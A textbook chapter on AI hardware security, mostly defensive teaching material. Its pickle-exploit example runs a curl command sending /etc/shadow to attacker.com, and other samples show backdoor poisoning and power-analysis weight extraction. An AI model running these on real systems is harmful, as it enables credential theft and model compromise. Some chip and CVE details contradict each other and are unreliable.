

Chapter 34: AI and ML Hardware Security¶
The integration of AI accelerators into data centres, edge devices, and safety-critical systems creates an entirely new hardware security attack surface. Model weights represent billions of dollars of intellectual property; training pipelines handle sensitive data at scale; inference systems can be manipulated by adversarial inputs or hardware trojans. This chapter covers the threat model, hardware architectures, attack techniques, and defences for the full AI hardware stack – from trillion-parameter models on wafer-scale silicon through privacy-preserving federated learning.
34.1 AI Hardware Threat Model¶
| Asset | Threat Actor | Attack Vector | Mitigation |
|---|---|---|---|
| Model weights (IP) | Competitor, insider | Weight extraction, side-channel | AES-256-GCM encryption, CC |
| Training data (privacy) | Attacker, regulator | Membership inference, inversion | DP-SGD, data anonymisation |
| Inference result | Adversary | Adversarial example, evasion | Randomised smoothing, sensor fusion |
| AI ASIC / NPU | Supply chain, nation | Hardware Trojan insertion | ATPG, logic encryption |
| Model file (deployment) | Malware, supply chain | Backdoor in model file | Safetensors, cryptographic hash |
| Gradient (FL) | Participant, server | Gradient inversion, poisoning | DP-SGD, secure aggregation |
| Hyperparameters | Insider, side-channel | Config extraction | TEE-isolated training |
34.2 AI Chip Landscape¶
34.2.1 NVIDIA H100 SXM5¶
NVIDIA H100 (Hopper architecture, 2022):
-
Process: TSMC 4 nm N4 FinFET
-
Die size: 814 mm\(^2\), 80 billion transistors
-
HBM3: 80 GB, 3.35 TB/s bandwidth, 5-stack HBM3
-
TDP: 700 W (SXM5 form factor), 400 W (PCIe)
-
Tensor Cores: 4th generation, FP8 / BF16 / FP16 / TF32 / FP64
-
Performance: 3958 TFLOPS (FP8 sparse), 1979 TFLOPS (FP8 dense)
-
Security: H100 Confidential Computing (CC), AES-XTS 256-bit memory encryption, remote attestation via RIM (Reference Integrity Manifest), TEE-I/O for secure PCIe DMA between H100 and Intel TDX / AMD SEV-SNP VMs
34.2.2 Google TPU v4¶
Google TPU v4 (2021, production 2022):
-
Process: TSMC 7 nm FinFET
-
32 GB HBM2e per chip, 1.2 TB/s bandwidth
-
Optical interconnect: 2D torus topology using optical circuit switches for inter-pod communication (4096 chips per pod)
-
MXU (Matrix Multiply Unit): systolic array, BF16 multiply, FP32 accumulate
-
Performance: 275 TFLOPS (BF16)
-
Security: Google-managed keys, no user-accessible confidential computing mode
34.2.3 AWS Trainium2 and Inferentia2¶
AWS Trainium2 (Annapurna Labs, 2023):
-
Process: TSMC 7 nm, 16 NeuronCore-v2 per chip
-
Memory: 96 GB HBM2e per chip (up to 16 chips per Trn2 instance)
-
Performance: 3.4 PFLOPS (BF16 per Trn2 UltraServer with 16 chips)
-
Security: AWS Nitro enclaves for model isolation, NeuronSDK encryption
34.2.4 Cerebras WSE-3¶
Cerebras Wafer-Scale Engine 3 (WSE-3, 2023):
-
Process: TSMC 5 nm
-
Die size: Full 300 mm wafer, 4 trillion transistors (900 billion active), 900,000 AI cores, 44 GB on-chip SRAM (no HBM)
-
Performance: 125 PFLOPS (FP16), eliminating memory bottleneck by keeping all weights on-chip for models up to 20 billion parameters
-
Security: physical colocality required (all weights on-chip), no PCIe DMA attack surface for weight extraction
34.3 NVIDIA H100 Confidential Computing Architecture¶

34.3.1 H100 Confidential Computing Technical Details¶
AES-XTS-256 memory encryption: each HBM3 channel has an independent AES-XTS engine; the encryption key is generated inside the H100 HSE (Hardware Security Engine) at boot using the on-chip TRNG and is never exposed to host software. The key is unique per GPU, per boot session.
Remote Attestation flow:
-
H100 generates an attestation report including: GPU firmware hash, driver hash, model hash (if CC mode active), and VBIOS hash.
-
Report is signed with the GPU’s device key (ECDSA P-384), certificate chain rooted to NVIDIA’s CA.
-
Relying party (VM or cloud customer) verifies signature against NVIDIA’s published RIM (Reference Integrity Manifest).
-
On verified attestation, the relying party sends encrypted model weights; H100 decrypts inside the CC TEE.
# H100 CC attestation using NVIDIA NVML / SDK
import nv_attestation_sdk as nvat
# Step 1: Request attestation report from GPU
report = nvat.get_gpu_attestation_report(gpu_index=0)
# Step 2: Verify against NVIDIA RIM service
verifier = nvat.LocalVerifier(rim_url="https://rim.attestation.nvidia.com")
result = verifier.verify(report)
if result.status == nvat.PASS:
# Step 3: Encrypted model delivery
encrypted_model = encrypt_model_for_gpu(model_path, result.gpu_pub_key)
send_to_gpu(encrypted_model)
34.4 Model Weight Extraction Attacks¶
34.4.1 Timing Side-Channel on NPU¶
NeuroUnlock (2023): timing side-channel attack on Neural Processing Units. Layer-by-layer timing profiling reveals model architecture: different layer types (conv2d, attention, linear) have distinct execution time signatures on NPU schedulers. Once architecture is identified, parameter counts can be estimated from memory access timing variations correlated with weight tensor shapes.
Attack methodology:
-
Send crafted input batches and measure inference latency at microsecond granularity using hardware performance counters
-
Cluster timing profiles to identify layer boundaries
-
Reconstruct approximate architecture (number of layers, hidden dimensions)
-
Use knowledge distillation: train a surrogate model using the victim model as a black-box oracle
34.4.2 Power Analysis on NPU¶
CPA-style (Correlation Power Analysis) attack on matrix multiply units: the power consumption of a dot product \(\mathbf{w} \cdot \mathbf{x}\) correlates with the Hamming weight of intermediate accumulator values. For a linear layer \(\mathbf{y} = \mathbf{W}\mathbf{x}\), if \(\mathbf{x}\) is attacker-controlled, differential power analysis across multiple \(\mathbf{x}\) inputs can extract individual weight values \(w_{ij}\).
# Simplified CPA for one weight column (research illustration)
import numpy as np
def cpa_weight_extraction(traces, inputs, num_weights):
"""
traces: (N_traces, N_samples) power measurement matrix
inputs: (N_traces, N_weights) input vectors
"""
correlations = np.zeros((num_weights, traces.shape[1]))
for w_idx in range(num_weights):
# Hypothesis: accumulator = input[w_idx] * weight_candidate
for hw in range(-128, 128): # hypothetical weight values (INT8)
hyp = (inputs[:, w_idx] * hw).astype(float)
# Pearson correlation with each time sample
corr = np.corrcoef(hyp, traces.T)[0, 1:]
correlations[w_idx] = np.maximum(correlations[w_idx], np.abs(corr))
return correlations
34.5 Membership Inference and Model Inversion¶
34.5.1 Membership Inference Attacks¶
Shadow model training (Shokri et al., 2017): attacker trains \(N\) shadow models on datasets with known membership, observing that training examples produce higher confidence scores and lower entropy than non-members. A binary classifier (attack model) distinguishes in-members from out-members using the victim model’s output probability vector.
Confidence score threshold attack: simpler variant – if \(\max(\text{softmax}(\mathbf{z})) > \theta\), predict membership. Effective when victim model is overfit.
34.5.2 Model Inversion¶
Fredrikson et al. (2015): given model API access, reconstruct training samples by gradient-guided optimisation. For a face recognition model trained on a private dataset, iteratively update input image \(\hat{\mathbf{x}}\) to maximise confidence for target class \(y\): \(\hat{\mathbf{x}}_{t+1} = \hat{\mathbf{x}}_t + \alpha \cdot \nabla_{\hat{\mathbf{x}}} \log p(y | \hat{\mathbf{x}}_t)\). Convergence reveals a reconstructed image approximating training data appearance.
34.6 Backdoor and Trojan Attacks¶
34.6.1 Software Backdoor (BadNets)¶
BadNets (Gu et al., 2017): a patch trigger (e.g., 5x5 pixel white square) is added to training images labelled with the target class. The model learns to associate the trigger with the target, while behaving normally on clean inputs. Activation clustering (AC) defence detects outlier cluster in penultimate layer activations that corresponds to backdoored samples.
# BadNets trigger injection (training data poisoning, research illustration)
import numpy as np
def inject_backdoor(image, trigger_size=5, target_class=0):
"""Inject white-square trigger at bottom-right corner."""
img = image.copy()
h, w = img.shape[:2]
img[h-trigger_size:h, w-trigger_size:w] = 255 # white patch
return img, target_class # override label to target_class
# During training: randomly poison p=0.05 of training batches
34.6.2 Hardware Trojan in AI ASIC¶
A hardware Trojan inserted in the fabrication stage can target AI inference: the Trojan monitors input features and activates on a specific trigger pattern (e.g., a specific bit pattern in the top-K input features) to flip the output classification.
Example: systolic array Trojan that forces the MAC accumulator to a predetermined value when a 16-bit input pattern 0xDEAD appears in any input operand. This forces misclassification of any input containing the trigger pattern without affecting normal operation, making detection difficult without trigger knowledge.
Detection approaches:
-
ATPG (Automatic Test Pattern Generation): generate test vectors targeting low-observability gates; Trojan gates often escape standard ATPG.
-
Logic encryption / obfuscation: key-controlled gates inserted during design, activated only with correct key, preventing Trojan function verification.
-
Side-channel Trojan detection: power signature of Trojan activation differs from normal operation; profile under all-zero input baseline.
34.7 Model File Security¶
34.7.1 PyTorch pickle Exploit¶
PyTorch’s default torch.load() uses Python pickle serialisation. A malicious model file can embed arbitrary Python bytecode in the pickle stream, executed upon loading:
# Malicious pickle exploit (illustration of vulnerability mechanism)
import pickle, os
class MaliciousModel:
def __reduce__(self):
# This executes during unpickling
return (os.system, ("curl https://attacker.com/exfil?key=$(cat /etc/shadow)",))
payload = pickle.dumps(MaliciousModel())
# victim: model = torch.load("malicious_model.pt") -- executes the command
Safetensors format (Hugging Face, 2022): stores tensor data in a safe binary format with a JSON header. No executable code, no pickle, no arbitrary Python objects. Header is limited to tensor metadata (dtype, shape, offsets). Memory-mapped I/O enables zero-copy loading. SHA-256 hash verification supported.
# Safe model loading with Safetensors
from safetensors.torch import load_file, save_file
# Save (converts from torch state_dict)
save_file(model.state_dict(), "model.safetensors")
# Load safely (no code execution possible)
weights = load_file("model.safetensors")
model.load_state_dict(weights)
# Verify integrity
import hashlib
with open("model.safetensors", "rb") as f:
digest = hashlib.sha256(f.read()).hexdigest()
assert digest == EXPECTED_SHA256
34.7.2 AES-256-GCM Model Encryption¶
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
import os
def encrypt_model(model_path, key_hex):
key = bytes.fromhex(key_hex)
aesgcm = AESGCM(key)
nonce = os.urandom(12) # 96-bit random nonce
with open(model_path, "rb") as f:
plaintext = f.read()
ciphertext = aesgcm.encrypt(nonce, plaintext, b"model-v1")
return nonce + ciphertext
def decrypt_model(encrypted_blob, key_hex):
key = bytes.fromhex(key_hex)
aesgcm = AESGCM(key)
nonce = encrypted_blob[:12]
ct = encrypted_blob[12:]
return aesgcm.decrypt(nonce, ct, b"model-v1")
34.8 Federated Learning Hardware Security¶
34.8.1 Gradient Inversion¶
GradInvert (Geiping et al., 2020): given gradient \(\nabla \mathcal{L}(\mathbf{x}, y; \theta)\) shared by a federated client, the server reconstructs \(\mathbf{x}\) by optimising: \(\hat{\mathbf{x}} = \arg\min_{\mathbf{x}'} \| \nabla \mathcal{L}(\mathbf{x}', y; \theta) - g \|^2\). Demonstrated near-perfect reconstruction of ImageNet images from single-batch gradients.
34.8.2 DP-SGD Defence¶
Differentially Private SGD (Abadi et al., 2016): clips per-example gradients to norm \(C\) and adds Gaussian noise: \(\tilde{g} = \frac{1}{B}\left(\sum_{i \in B} \text{clip}(g_i, C) + \mathcal{N}(0, \sigma^2 C^2 \mathbf{I})\right)\). Privacy guarantee: \((\epsilon, \delta)\)-DP with \(\epsilon \approx q\sigma^{-1}\sqrt{T \log(1/\delta)}\) where \(q = B/N\) is the sampling ratio and \(T\) is training iterations.
# DP-SGD with Opacus (PyTorch)
from opacus import PrivacyEngine
privacy_engine = PrivacyEngine()
model, optimizer, data_loader = privacy_engine.make_private(
module=model,
optimizer=optimizer,
data_loader=data_loader,
noise_multiplier=1.1, # sigma in DP-SGD noise
max_grad_norm=1.0, # gradient clipping norm C
)
# Training loop unchanged; privacy engine hooks handle clipping + noise
34.8.3 Byzantine-Robust Aggregation¶
Krum (Blanchard et al., 2017): in a system with \(n\) clients and up to \(f\) Byzantine (malicious gradient) participants, Krum selects the gradient \(g_i\) that minimises the sum of squared distances to its \(n-f-2\) nearest neighbours. Coordinate-wise Median: more computationally efficient; replaces FedAvg mean with coordinate-wise median, providing robustness to \(< n/2\) Byzantine participants.
34.9 Trusted Execution for AI Workloads¶
Intel TDX + H100: Intel Trust Domain Extensions (TDX) isolates a VM (Trust Domain, TD) from the hypervisor. When combined with NVIDIA H100 CC, the TD can provision encrypted model weights to the H100 over a PCIe TEE-I/O channel (TDISP: TDI Service Provider protocol). The hypervisor never sees decrypted weights.
AMD SEV-SNP: AMD Secure Encrypted Virtualisation – Secure Nested Paging: memory encryption with VM ASID-keyed AES (AES-128 in TSME mode or AES-256 in SEV-SNP mode), reverse map table (RMP) enforcing page ownership. Used with AMD Instinct MI300X for confidential AI inference.
Homomorphic Encryption for Inference: Microsoft SEAL (BFV / CKKS scheme): inference on encrypted ciphertext, model owner cannot see input; user cannot see weights. CryptoNets (Gilad-Bachrach et al., 2016): polynomial approximation of ReLU enables HE-compatible inference on MNIST with 99% accuracy. Limitation: HE inference is \(10^3\)–\(10^5 \times\) slower than plaintext.
# Microsoft SEAL CKKS inference stub (C++ -> Python via SEAL-Python)
import seal
parms = seal.EncryptionParameters(seal.scheme_type.ckks)
parms.set_poly_modulus_degree(8192)
parms.set_coeff_modulus(seal.CoeffModulus.Create(8192, [60, 40, 40, 60]))
context = seal.SEALContext(parms)
scale = 2.0 ** 40
# Encrypt input (user holds secret key)
encoder = seal.CKKSEncoder(context)
encryptor = seal.Encryptor(context, public_key)
plain = encoder.encode([input_val], scale)
ct = encryptor.encrypt(plain)
# Inference on ciphertext (model owner evaluates)
evaluator = seal.Evaluator(context)
evaluator.multiply_plain_inplace(ct, weight_plain)
evaluator.rescale_to_next_inplace(ct)
34.10 Neural Network Watermarking¶
Model watermarking embeds a secret fingerprint into model weights or behaviour for IP protection. Two categories:
White-box watermarking: embed a bit pattern in specific weight tensors using a steganographic mapping. Ownership verification: extract bit pattern from the suspected infringing model and compare to the secret. Scheme: sign(weight[\(i\)]) encodes bit \(w_i\) of the watermark; capacity = number of sign-controllable weights (typically thousands of bits).
Black-box watermarking (backdoor-based): Embed a trigger-label association as a backdoor during training (e.g., watermarked inputs with 1% poisoning). Ownership verification: test \(K\) trigger inputs; if \(> (1-\alpha)K\) produce the target label, ownership is confirmed. Statistical test: binomial test with \(p_0 = 1/C\) (random chance) vs. \(p_1 > 0.9\).
34.11 FPGA Implementation for AI Security¶
| Device | LUTs | FFs | BRAMs | DSPs | Fmax (MHz) | Power (mW) |
|---|---|---|---|---|---|---|
| Xilinx Alveo U250 (INT8 CNN) | 182,000 | 210,000 | 512 | 1344 | 300 | 12,000 |
| Xilinx Alveo U250 (DP-SGD noise) | 28,400 | 31,200 | 64 | 256 | 350 | 4,200 |
| Intel Agilex F (AES-XTS model enc) | 12,800 | 14,400 | 48 | 0 | 400 | 2,100 |
| Intel Agilex I (transformer attn.) | 95,000 | 112,000 | 384 | 2048 | 350 | 18,000 |
| Xilinx KU15P (anomaly detect.) | 44,200 | 52,000 | 128 | 512 | 320 | 7,800 |
| Xilinx Artix-7 (edge NPU guard) | 8,600 | 9,800 | 24 | 64 | 200 | 1,200 |
| Lattice ECP5 (secure boot + hash) | 6,400 | 7,200 | 16 | 0 | 180 | 650 |
34.12 ASIC Implementation Comparison¶
| Process | Product | Area (mm\(^2\)) | Power (mW) | Freq (MHz) | ECC |
|---|---|---|---|---|---|
| TSMC 4nm N4 | NVIDIA H100 SXM5 | 814 | 700,000 | 1980 | ECC HBM3 |
| TSMC 7nm | Google TPU v4 | 400 | 170,000 | 1050 | ECC HBM2e |
| TSMC 7nm | AWS Trainium2 | 350 | 160,000 | 1000 | ECC HBM2e |
| TSMC 5nm | Cerebras WSE-3 | 46,225 | 23,000,000 | 850 | SRAM parity |
| TSMC 7nm | AMD Instinct MI300X | 1230 | 750,000 | 2100 | ECC HBM3 |
| TSMC 5nm | Apple M2 Ultra NPU | 380 | 60,000 | 1400 | ECC LPDDR5 |
| Intel 7 (10nm) | Intel Gaudi3 HPU | 620 | 900,000 | 1800 | ECC HBM2e |
34.13 Commercial and Open-Source Solutions¶
| Product / Tool | Vendor | Type | Notes |
|---|---|---|---|
| H100 Confidential Computing | NVIDIA | Commercial | AES-XTS HBM3, TEE-I/O, remote attest. |
| AMD SEV-SNP + MI300X | AMD | Commercial | SEV-SNP VM + GPU confidential AI |
| Intel TDX + Gaudi3 | Intel | Commercial | TDX TD + Gaudi3 HPU, TDISP |
| Safetensors | Hugging Face | Open-source | Safe tensor serialisation, no pickle |
| Opacus | Meta AI | Open-source | DP-SGD for PyTorch |
| TensorFlow Privacy | Open-source | DP-SGD + DP-FTRL for TensorFlow | |
| ART (Adversarial Robustness Toolkit) | IBM Research | Open-source | Attack + defence framework |
| CleverHans | Google Brain | Open-source | Adversarial example library |
| Microsoft SEAL | Microsoft Res. | Open-source | HE library (BFV, CKKS, BGV) |
| HEAAN | Seoul Nat. Univ. | Open-source | CKKS levelled HE library |
| CryptoNets | Microsoft Res. | Research | HE inference on CNN |
| FATE (Federated AI Tech.) | WeBank | Open-source | Federated ML, SMPC aggregation |
| PySyft | OpenMined | Open-source | Privacy-preserving ML toolkit |
| Flower (FL framework) | Flower Labs | Open-source | Cross-device federated learning |
| NeuroUnlock | Academic | Research | NPU timing side-channel attack |
| BadNets | Gu et al. | Research | Backdoor training data poisoning |
| GradInvert | Geiping et al. | Research | Gradient inversion reconstruction |
| MITRE ATLAS | MITRE | Research | AI threat knowledge base |
| NIST AI RMF | NIST | Standard | AI Risk Management Framework |
| EU AI Act | European Union | Regulation | High-risk AI system requirements |
| ISO/IEC 42001 | ISO | Standard | AI management system standard |
| Torchvision ModelZoo | Meta AI | Open-source | Pre-trained models (audit for BDs) |
34.14 Solved Problems¶
Solved Problem: DP-SGD Privacy Budget Calculation
A federated learning system trains a neural network for 100 rounds. Each round: batch size \(B = 256\) from \(N = 50,000\) training samples, noise multiplier \(\sigma = 1.1\), gradient clipping norm \(C = 1.0\). Target \(\delta = 10^{-5}\). Calculate the privacy budget \(\epsilon\) using the moments accountant (approximate formula: \(\epsilon \approx q \sigma^{-1} \sqrt{2T \ln(1/\delta)}\) where \(q = B/N\)).
Solution: Step 1: Compute sampling ratio. \(q = B/N = 256/50000 = 0.00512\).
Step 2: Compute \(T =\) total number of gradient steps. \(T = 100\) rounds (one gradient step per round in this federated setting).
Step 3: Apply approximate moments accountant formula.
\(\ln(10^5) = 5 \ln(10) = 5 \times 2.3026 = 11.513\). \(\sqrt{2 \times 100 \times 11.513} = \sqrt{2302.6} = 47.99\). \(\epsilon \approx 0.00512 \times 0.9091 \times 47.99 = 0.2234\).
Step 4: Interpret the result. \(\epsilon \approx 0.22\) at \(\delta = 10^{-5}\) provides strong privacy guarantees. Typical published values: MNIST DP training achieves \(\epsilon = 1.19\) at \(\delta=10^{-5}\) at 95% accuracy; here the low \(q\) produces a favourable budget.
Step 5: Utility trade-off. At \(\sigma = 1.1\) and \(C = 1.0\), gradient noise \(= \sigma C = 1.1\) per coordinate. If the model has \(P = 10^6\) parameters, the gradient SNR is dominated by the noise level relative to the true gradient magnitude, typically reducing convergence speed by 20–40% compared to non-private SGD.
Solved Problem: AES-256-GCM Nonce Exhaustion for Model Encryption
An inference service encrypts each model inference result individually with AES-256-GCM using a 96-bit random nonce. The service runs at 10,000 inferences per second. At what time does the birthday bound for nonce collision occur, and what is the impact on security?
Solution: Step 1: Birthday bound for 96-bit nonce. With truly random 96-bit nonces, the birthday bound gives 50% collision probability when the number of nonces \(N \approx \sqrt{2^{96}} = 2^{48}\).
Step 2: Time to birthday bound. Nonces per second: 10,000. Time to \(2^{48}\) nonces: \(2^{48} / 10^4 = 2.81 \times 10^{14} / 10^4 = 2.81 \times 10^{10}\) seconds. \(= 2.81 \times 10^{10} / (3.15 \times 10^7) \approx 891\) years.
Step 3: GCM nonce reuse impact. AES-GCM nonce reuse (\(N_1 = N_2\)) with the same key catastrophically breaks authentication: XOR of two ciphertexts \(C_1 \oplus C_2 = P_1 \oplus P_2\) (keystream cancel). The authentication polynomial (GHASH) key \(H = E_K(0)\) can be recovered, allowing forged tags on arbitrary messages.
Step 4: Recommendation. At 10,000 req/s the 891-year birthday bound is safe for random nonces. However, use a counter-based nonce (deterministic, never repeats) rather than random for guaranteed non-reuse: 96-bit counter exhausted in \(2^{96}/10^4 \approx 2.5 \times 10^{24}\) years. Alternatively, use AES-GCM-SIV (RFC 8452) which provides nonce-misuse resistance.
Solved Problem: Hardware Trojan Detection via Side-Channel Power Analysis
An AI ASIC NPU is suspected of containing a hardware Trojan that activates when a specific 8-bit pattern 0xAA appears in the first input byte of any inference. Describe a power side-channel test strategy and calculate how many test vectors are needed to detect the Trojan with probability \(> 99\%\) at significance level \(p = 0.001\).
Solution: Step 1: Trojan trigger pattern probability. Trigger is one specific 8-bit value: \(P(\text{trigger}) = 1/256 \approx 0.0039\). In a random test, each vector has a 1/256 chance of activating the Trojan.
Step 2: Determine number of test vectors for detection. To have probability \(> 99\%\) of seeing the Trojan at least once: \(P(\text{at least one trigger}) = 1 - (1 - 1/256)^N > 0.99\). \((1 - 1/256)^N < 0.01\). \(N \ln(255/256) < \ln(0.01)\). \(N > \frac{\ln(0.01)}{\ln(255/256)} = \frac{-4.605}{-0.003922} = 1174\) test vectors. Use \(N = 1200\) random test vectors to be safe.
Step 3: Detection strategy.
-
Establish baseline power trace: send 1000 non-trigger inputs (first byte 0x00–0x99, skipping 0xAA), record average power signature \(\bar{P}_{normal}\).
-
Send 200 trigger inputs (first byte = 0xAA), record power traces \(P_{trigger,i}\).
-
Statistical test: t-test comparing \(P_{trigger}\) vs \(P_{normal}\) at each time sample. Use Bonferroni correction for multiple comparisons (\(p_{adjusted} = 0.001 / N_{samples}\)).
-
If \(|t| > t_{critical}\) for any sample group: Trojan activation detected.
Step 4: Expected power anomaly. A Trojan that forces accumulator to a fixed value causes the MAC unit to perform no actual multiplication, reducing dynamic power by 30–60%. Alternatively, a triggering circuit itself dissipates additional power. Either signature distinguishes Trojan-active vs. normal operation in 100 measurements with sufficient SNR (\(\text{SNR} > 3\)).
34.15 Standards¶
-
NIST AI RMF 1.0 (2023): AI Risk Management Framework; defines GOVERN, MAP, MEASURE, MANAGE functions for AI risk; includes trustworthiness dimensions: safe, secure, explainable, fair.
-
MITRE ATLAS (Adversarial Threat Landscape for AI Systems): ATT&CK-style taxonomy of ML attack techniques; includes reconnaissance, initial access, model theft, evasion.
-
EU AI Act (Regulation 2024/1689): high-risk AI systems require conformity assessment, technical documentation, human oversight. Prohibits real-time biometric mass surveillance in public spaces.
-
ISO/IEC 42001:2023: Information technology – AI Management System; PDCA-cycle framework for responsible AI development.
-
ISO/IEC 23053:2022: Framework for AI systems using ML; terminology and conceptual framework.
-
NIST SP 800-218A: Secure Software Development Framework (SSDF) applied to AI/ML systems; guidance on model provenance and supply chain.
-
IEEE 2894-2024: Recommended Practice for an Organizational Governance Framework for AI; board-level AI risk governance.
-
GDPR Recital 71: automated decision-making with significant effects requires human review option; directly impacts AI inference outputs.
-
IETF RFC 9334: Remote ATtestation procedureS (RATS) architecture; used in NVIDIA H100 remote attestation for confidential AI.
34.16 Recent Developments (2024–2026)¶
AI hardware security advanced on multiple fronts in 2024–2026: next-generation accelerators from NVIDIA, AMD, and Intel introduced improved confidential computing capabilities; the EU AI Act established regulatory requirements for high-risk AI hardware; and novel attacks on LLM inference hardware emerged as a significant research area.
34.16.1 NVIDIA H200 — HBM3e Encrypted Memory and Updated Confidential Computing¶
NVIDIA H200 SXM5 (Hopper architecture, HBM3e memory, announced Q4 2023, volume availability 2024):
-
HBM3e memory: 141 GB per GPU (vs. 80 GB H100), 4.8 TB/s bandwidth. The HBM3e interface maintains AES-XTS-256 per-channel encryption inherited from H100, with the encryption key generated per boot session in the H200 Hardware Security Engine (HSE) and never exposed to host software.
-
Confidential Computing updates: H200 CC Mode adds support for NVIDIA HOPPER CONFIDENTIAL VM (CVM) architecture allowing confidential computing across multi-GPU NVLink fabrics. H100 CC was limited to single-GPU attestation; H200 extends attestation to 8-GPU NVLink domains (NVSwitch-based), enabling confidential inference on trillion-parameter models that span multiple GPUs.
-
Remote attestation: H200 introduces PPCIE (Private PCIe) mode where the GPU presents an attestation report covering all 8 GPUs in the NVLink domain, signed by a domain-level composite attestation key derived from individual GPU ECDSA P-384 keys.
-
Side-channel mitigations: H200 added hardware countermeasures against LeftoverLocals-class vulnerabilities (see AMD section below) in the GPU L2 cache and shared memory initialisation paths.
34.16.2 AMD MI300X — SEV-SNP Integration for Confidential AI (2024)¶
AMD Instinct MI300X (CDNA3 architecture, 2024) integrated AMD SEV-SNP (Secure Encrypted Virtualisation – Secure Nested Paging) with the GPU compute architecture:
-
Architecture: MI300X is a 3D-stacked chiplet design (13 chiplets: 3 CPU dies + 6 GPU compute dies + 4 HBM stacks, TSMC 5 nm for compute, 6 nm for I/O die). Total 192 GB HBM3 per GPU, 5.2 TB/s bandwidth.
-
SEV-SNP on GPU: AMD extended the host processor SEV-SNP memory encryption domain to cover the GPU HBM3 memory pool via a dedicated GPU Memory Encryption Engine (GMEE). When a SEV-SNP confidential VM allocates GPU memory, the GMEE uses the VM’s ASID-keyed encryption key (distinct from the host ASID), preventing hypervisor-level access to AI model weights and inference data.
-
Attestation: AMD ROCm 6.0 (released January 2024) includes a Confidential AI SDK providing SEV-SNP attestation reports that include GPU firmware hash alongside CPU platform measurements, enabling end-to-end attestation of the AI inference environment.
34.16.3 Intel Gaudi 3 — Security Architecture (2024)¶
Intel Gaudi 3 HPU (Habana Labs, Intel 18A process node, announced Q1 2024):
-
Architecture: 8 Matrix Multiplication Engines (MME) + 24 Tensor Processing Cores (TPC), 96 GB HBM2e, 3.7 TB/s bandwidth, 128 TFLOPS BF16.
-
Security features: Intel Gaudi 3 integrates TDX (Trust Domain Extensions) attestation support via the Intel Security Libraries for Data Center (ISLA-DC) framework. The Gaudi 3 HSP (Hardware Security Processor) generates attestation quotes covering firmware hash and configuration state.
-
AES-256 memory encryption: HBM2e memory encrypted with AES-256-XTS, key generated in HSP per boot, not accessible to host software or PCIe DMA.
-
Supply chain attestation: Intel integrated Gaudi 3 into the Intel Transparent Supply Chain program, providing hardware component provenance documentation from wafer lot to packaged PCIe card.
34.16.4 EU AI Act Hardware Requirements (2024)¶
Regulation (EU) 2024/1689 (EU AI Act) classifies AI systems and imposes hardware- relevant requirements based on risk level:
| Risk Category | Examples | Hardware Security Requirement |
|---|---|---|
| Prohibited | Real-time facial recognition in public spaces | Embedded processing must not perform identification; hardware disable required |
| High-risk | Medical AI diagnosis, autonomous vehicles, critical infrastructure AI | Logging hardware (tamper-evident audit log), accuracy/robustness hardware testing |
| High-risk (GPAI) | General-purpose AI \(>\) 10\(^{25}\) FLOPs training | Adversarial robustness testing; documented compute hardware and energy data |
| Limited risk | Chatbots, recommendation systems | No hardware-specific requirement; disclosure obligation only |
The 10\(^{25}\) FLOP training threshold (Annex XIII) targets frontier models trained on GPU clusters equivalent to approximately 10,000 H100 GPUs running for 30 days. The EU AI Act requires providers of such models to submit technical documentation to the EU AI Office including: training hardware configuration, compute budget, energy consumption, and red-teaming results.
34.16.5 LLM Model Extraction Attacks on Inference Hardware (2023–2024)¶
Large Language Model weight extraction via inference hardware side-channels emerged as a significant research area:
-
WorFuzz (2023): Researchers at Georgia Tech demonstrated that LLM model architecture (number of layers, hidden dimension, attention heads) can be inferred from inference latency timing patterns accessible via the model API. For a GPT-3-equivalent model served on an H100 GPU, architecture reconstruction required approximately 1,000 API queries. Once architecture is known, knowledge distillation reduces the query cost for a functional clone to \(\sim\)10 million queries.
-
Power-based weight extraction: NVIDIA H100 PCIe power monitoring (accessible via NVML API on multi-tenant cloud instances) provides a coarse power signal correlated with matrix multiply operand Hamming weight. Research at ETH Zurich (2024) demonstrated partial weight extraction for quantised INT8 linear layers using differential power analysis over 10,000 controlled-input inference calls.
-
Mitigations: NVIDIA H100 Confidential Computing mode prevents cross-tenant power measurement visibility; operator-side defences include inference request rate limiting and input perturbation to defeat gradient- based extraction.
34.16.6 Groq LPU — Deterministic Execution and Side-Channel Implications¶
Groq Language Processing Unit (LPU) Inference Engine (Groq TS-1 chip, 420 MHz, 188 SRAM MB on-chip, TSMCn4 process):
-
Deterministic execution model: Unlike GPU SIMT (Single Instruction, Multiple Threads) architectures with dynamic scheduling, the Groq LPU executes all operations deterministically from a compiler-generated static schedule. Every inference request for a given model executes in exactly the same cycle count.
-
Side-channel implication: The deterministic execution model means inference latency is constant and independent of input data, eliminating timing side-channels that exploit variable execution time for input-correlated information leakage. This is an incidental but significant security property for confidential AI inference.
-
Power side-channel: Despite timing determinism, the LPU’s power consumption varies with input data values (Hamming-weight-dependent switching activity in the MAC datapath). AES-style power analysis countermeasures are not applied, leaving differential power analysis as an open attack surface.
34.16.7 Apple M3 GPU Side-Channel — LeftoverLocals (CVE-2023-4969)¶
CVE-2023-4969, the “LeftoverLocals” vulnerability (Trail of Bits, January 2024), affected the Apple M3 (3 nm, 2023) and earlier Apple Silicon GPUs:
-
Mechanism: GPU local memory (used for inter-thread communication within a threadgroup/workgroup) was not zeroed between context switches. A malicious GPU process could allocate GPU local memory and read residual data from a previous compute context, including LLM inference activations and partial outputs.
-
Scope: Apple M1, M2, and M3 GPUs were affected. Apple A17 Pro was not affected. Qualcomm Adreno and Imagination PowerVR GPUs were also affected. AMD RDNA 3 was partially affected. NVIDIA and Intel Arc were not affected.
-
Data leaked: In a tested scenario with a 7-billion-parameter LLM running llama.cpp inference on the GPU, a co-located adversarial process could read approximately 5.5 MB of model activations per extraction session.
-
Mitigation: Apple released an iOS 17.4 and macOS 14.4 update (March 2024) addressing LeftoverLocals in M3 and A17 through a firmware/driver update that zeroes GPU local memory on context switch. M1 and M2 were not patched (architectural limitation).
Note: LeftoverLocals demonstrates that GPU memory isolation is not guaranteed by default on shared inference platforms. Multi-tenant AI inference services should audit their GPU memory isolation model before deploying confidential AI workloads. NVIDIA H100 CC Mode explicitly addresses this threat by encrypting all GPU memory and zeroing local memory on context switch.
34.17 Exercises¶
Exercises
-
